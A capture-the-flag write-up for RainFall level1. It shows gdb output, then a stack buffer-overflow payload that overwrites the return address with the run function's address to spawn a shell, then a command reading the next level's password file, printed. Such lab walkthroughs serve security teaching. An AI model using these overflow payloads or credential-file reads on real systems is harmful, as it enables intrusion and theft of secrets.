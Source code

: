LEVEL_1:
# 📚 Exploiting `level1` – call the shell inside the run function.
    
get the addr of the run system:
```
level1@RainFall:~$ gdb ./level1
info functions 
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
 so the addr of the run func : 0x08048444  run       
```sh
level1@RainFall:~$ (python -c 'print("A"*76 + "\x44\x84\x04\x08")') | ./level1
Good... Wait what?
Segmentation fault (core dumped)

```
The payload is sent into ./level1’s stdin.

But once Python finishes printing, EOF (end-of-file) is reached on stdin.

So when your exploit works and /bin/sh is spawned, the shell immediately sees EOF on its input and exits right away — you don’t get to interact with it.

the fix is `; cat`
```sh
level1@RainFall:~$ (python -c 'print("A"*76 + "\x44\x84\x04\x08")' ; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
First, Python prints your payload (overflow + return address).

Then, cat continues running and forwards your keyboard input into the process.

Now, when /bin/sh spawns, it still has a live stdin to read from — so you get an interactive shell.

